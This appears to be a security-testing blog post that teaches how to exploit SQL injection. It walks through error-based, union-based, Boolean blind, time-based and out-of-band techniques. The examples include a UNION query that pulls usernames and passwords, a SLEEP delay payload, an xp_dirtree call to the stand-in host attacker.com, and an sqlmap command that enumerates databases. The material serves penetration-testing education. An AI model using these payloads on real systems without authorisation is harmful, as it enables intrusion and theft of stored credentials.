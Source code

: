```yaml
---
title: "Exploiting SQL Injection Vulnerabilities"
seoTitle: "SQL Injection Exploits Explained"
seoDescription: "Guide to exploiting SQL injection vulnerabilities: techniques, examples, and automated tools for web application security testing"
datePublished: Fri Jun 28 2024 04:16:50 GMT+0000 (Coordinated Universal Time)
cuid: clxy6luun000f09ky9zp5ao51
slug: exploiting-sql-injection-vulnerabilities
cover: https://cdn.hashnode.com/res/hashnode/image/upload/v1719509239858/dadd4a58-d48a-46fe-b78b-c62ba75601af.jpeg
tags: sql-injection, application-security, cybersecurity-1, ethicalhacking

---
```


**Introduction**

In the past sections, we discussed the different types of SQL injection vulnerabilities and how to test an application to see if it's vulnerable to SQL injection.

If you missed it, you can [`check it out here`](https://dhananjaykulkarni.hashnode.dev/steps-to-detect-sql-injection-vulnerabilities)

In this section, we'll dive into how to exploit SQL injection vulnerabilities to achieve your end goal. This will vary depending on the type of SQL injection vulnerability you're dealing with. We'll cover five different types: error-based SQL injection, union-based SQL injection, Boolean-based blind SQL injection, time-based blind SQL injection, and out-of-band SQL injection.

### 1\. Error-Based SQL Injection

**Concept:** Error-based SQL injection is an in-band SQL injection technique that forces the database to generate an error, giving the attacker information upon which to refine a query.

**Exploitation Steps:**

1. **Submit SQL Specific Characters:**
    
    * Input characters like single quote (`'`), double quote (`"`), or a comment delimiter (`--`).
        
2. **Observe the Application’s Response:**
    
    * Look for error messages that reveal database information.
        

**Example:**

```sql
SELECT * FROM users WHERE username = 'admin' --' AND password = 'password';
```

**Expected Result:** The application throws an error message similar to:

```plaintext
You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''--' AND password = 'password'' at line 1
```

This indicates the application is vulnerable to SQL injection.

### 2\. Union-Based SQL Injection

**Concept:** Union-based SQL injection leverages the UNION SQL operator to combine the results of two queries into a single result set. To use the UNION operator, two rules must be followed:

* The number and order of the columns must be the same in both queries.
    
* The data types must be compatible.
    

**Exploitation Steps:**

1. **Determine Number of Columns:**
    
    * Use `ORDER BY` clause or inject null values.
        
2. **Find Useful Data Types:**
    
    * Probe columns to see if they can hold string data.
        

**Example:**

```sql
SELECT title, cost FROM products WHERE id = 1 UNION SELECT null, null -- ;
```

**Expected Result:**

```plaintext
All queries combined using a UNION, INTERSECT or EXCEPT operator must have an equal number of expressions in their target lists.
```

By incrementing the number of null values, you determine the number of columns.

3. **Exploit the Vulnerability:**
    

```sql
SELECT title, cost FROM products WHERE id = 1 UNION SELECT username, password FROM users -- ;
```

**Expected Result:** The result set combines product titles and costs with usernames and passwords from the users table.

### 3\. Boolean-Based Blind SQL Injection

**Concept:** Boolean-based blind SQL injection relies on sending Boolean conditions to the server and observing differences in responses to infer data.

**Exploitation Steps:**

1. **Submit Boolean Conditions:**
    
    * Send a condition that evaluates to false and observe the response.
        
    * Send a condition that evaluates to true and observe the response.
        

**Example:**

```sql
SELECT * FROM users WHERE username = 'admin' AND '1'='1'; -- True condition
SELECT * FROM users WHERE username = 'admin' AND '1'='2'; -- False condition
```

**Expected Result:**

* The first query returns the expected page.
    
* The second query returns a different page or an error.
    

### 4\. Time-Based Blind SQL Injection

**Concept:** Time-based blind SQL injection uses time delays in SQL queries to infer data from the database.

**Exploitation Steps:**

1. **Submit Time-Delay Payloads:**
    
    * Inject a payload that causes a delay if the condition is true.
        

**Example:**

```sql
SELECT * FROM users WHERE username = 'admin' AND IF(1=1, SLEEP(5), 0);
```

**Expected Result:** The application delays the response by 5 seconds, indicating the condition is true.

### 5\. Out-of-Band SQL Injection

**Concept:** Out-of-band SQL injection relies on triggering a network connection to a system that you control.

**Exploitation Steps:**

1. **Submit Out-of-Band Payloads:**
    
    * Inject payloads designed to trigger a network interaction.
        

**Example:**

```sql
SELECT * FROM users WHERE username = 'admin'; exec xp_dirtree '\\attacker.com\share';
```

**Expected Result:** The server attempts to access [`attacker.com`](http://attacker.com), indicating a successful out-of-band interaction.

### Automated Exploitation Tools

**SQLMap:**

![sqlmap: automatic SQL injection and database takeover tool](https://sqlmap.org/images/screenshot.png align="left")

SQLMap is a powerful, open-source tool used to automate the process of detecting and exploiting SQL injection vulnerabilities. It can identify the type of SQL injection and exploit it to extract data, gain a shell, and more. To read more click [`here`](https://sqlmap.org/)

**Usage Example:**

```bash
sqlmap -u "http://example.com/vulnerable.php?id=1" --dbs
```

**Expected Result:** SQLMap identifies the database type and lists all available databases.

**Web Application Vulnerability Scanners:**

These tools scan web applications for various vulnerabilities, including SQL injection. They automate the discovery process but often require manual verification and exploitation. Read more [`here`](https://owasp.org/www-community/Vulnerability_Scanning_Tools)

### Conclusion

Understanding and exploiting SQL injection vulnerabilities require a methodical approach and familiarity with SQL concepts. By following the steps outlined for each type of SQL injection, you can effectively identify and exploit these vulnerabilities to test the security of web applications. Tools like SQLMap and web application vulnerability scanners can aid in this process, but manual testing and validation remain crucial for comprehensive security assessments.